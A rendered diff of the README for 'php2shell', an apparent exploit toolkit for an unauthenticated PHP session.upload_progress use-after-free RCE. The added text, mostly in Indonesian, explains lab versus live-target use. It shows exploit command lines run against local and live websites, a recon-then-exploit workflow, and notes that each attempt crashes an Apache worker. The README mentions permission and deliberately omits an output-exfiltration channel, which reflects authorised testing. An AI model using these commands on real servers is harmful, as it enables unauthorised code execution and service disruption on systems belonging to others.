

Before and after one commit to ArioVeisa/php2shell, a Markdown page: README.md, the part around one of its changes. Shown at 90% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: lab-vs-live section (why id>/out/p1 is lab-only, BLIND on live), real banner, cleaner flow

````diff
--- a/README.md
+++ b/README.md
@@ -122,19 +122,75 @@ php2shell exploit \
 ```
 
 ```text
- _______ _   _ ____  ____  ____  _____ _     ___ _____
-|_   _| | | | | _ \|  _ \/ ___|| ____| |   |_ _|_   _|
-  | | | |_| | |_) | |_) \___ \|  _| | |    | |  | |
-  | | |  _  |  _ <|  _ < ___) | |___| |___ | |  | |
-  |_| |_| |_|_| \_\_| \_\____/|_____|_____|___| |_|
+ ____  _   _ ____ ____  ____  _   _ _____ _     _
+|  _ \| | | |  _ \___ \/ ___|| | | | ____| |   | |
+| |_) | |_| | |_) |__) \___ \| |_| |  _| | |   | |
+|  __/|  _  |  __// __/ ___) |  _  | |___| |___| |___
+|_|   |_| |_|_|  |_____|____/|_| |_|_____|_____|_____|
 
-stage 1: heap leak (try 1/3)    → chunk base  = 0x7f687e400000
-stage 2: libphp leak (try 1/3)  → libphp base = 0x7f68800b0000
-stage 3: HTDATA=0x…690d8 ZIF=0x…515370
-        → uid=33(www-data) gid=33(www-data) groups=33(www-data)
+  PHP session.upload_progress UAF  ->  unauthenticated RCE
+  CVE-2026-109618  +  CVE-2026-109619   |   CVSS 9.2   |   PHP 5.4 - 8.x
+```
 
-PROOF (8.3s): uid=33(www-data)     ✅
+*(persis banner yang dicetak CLI saat dijalankan — sumber: `lib/banner.py`)*
+
+---
+
+## ❖ Lab target vs Live target — baca ini sebelum menjalankan
+
+Dua skenario berbeda, dan **command-nya beda**:
+
+### A) Lab lokal (`127.0.0.1`) — full proof
+
+```bash
+php2shell exploit -u http://127.0.0.1:8095/index.php --force --yes \
+    --exploit-profile bookworm -c 'id>/out/p1'
+# → PROOF (8.3s): uid=33(www-data)   ← hasil perintah TERBACA otomatis
 ```
+
+Kenapa bisa terbaca? `id>/out/p1` menulis hasil `id` ke file `/out/p1` di
+dalam container, dan folder itu **di-mount ke host** (`out/p1`). Toolkit
+otomatis membacanya → kamu lihat `uid=33(www-data)` di terminal.
+
+### B) Live target (website aktif) — blind by design
+
+```bash
+php2shell exploit -u https://target.example/ --yes -c 'id'
+# → stage 1/2/3 selesai, tapi:
+# → BLIND — perintah terkirim, tapi tidak ada kanal bukti
+```
+
+Di live target **`id>/out/p1` TIDAK berguna** — folder `/out` di server
+target tidak di-mount ke mesinmu, jadi tidak ada yang bisa dibaca. Hasilnya
+`BLIND`: rantai *dieksekusi* (worker mati + restart = jejak jelas di log
+server), tapi output perintah tidak sampai ke kamu.
+
+**Itu keputusan desain, bukan kekurangan:** repot-repot buat "kanal baca
+output" di live target = membuat tool ekstraksi data = melintasi garis
+proof-of-access → backdoor. Toolkit ini sengaja berhenti di bukti *eksekusi*
+(worker crash pattern + stage 3 selesai), bukan bukti *output perintah*.
+
+**Alur kerja yang disarankan di live target:**
+
+```bash
+# 1) RECON dulu — tanpa menyentuh exploit:
+php2shell detect    -u https://target.example/
+php2shell preflight -u https://target.example/
+# verdict: vulnerable / patched / unknown (CDN) + skor kesiapan
+
+# 2) Cek upload_progress & display_errors bocor atau tidak:
+#    kalau CDN menutup versi → tetap boleh lanjut (deteksi bukan gerbang)
+
+# 3) Eksploitasi (kalau target MILIKMU / ada izin):
+php2shell exploit -u https://target.example/ --yes -c 'id'
+# hasil BLIND = dieksekusi tapi output tak terbaca
+# bukti dampak: worker crash di log server + stage-3 completion
+```
+
+> ⚠️ **Sadar risiko di live target:** setiap percobaan membuat 1 worker
+> Apache **mati (SIGABRT)** lalu di-fork ulang. Di server produksi itu =
+> gangguan layanan + jejak log yang sangat jelas + kemungkinan WAF block.
+> Sekali coba sudah cukup untuk membuktikan — loop retry 3×3 hanya untuk lab.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+1 -1 lines).
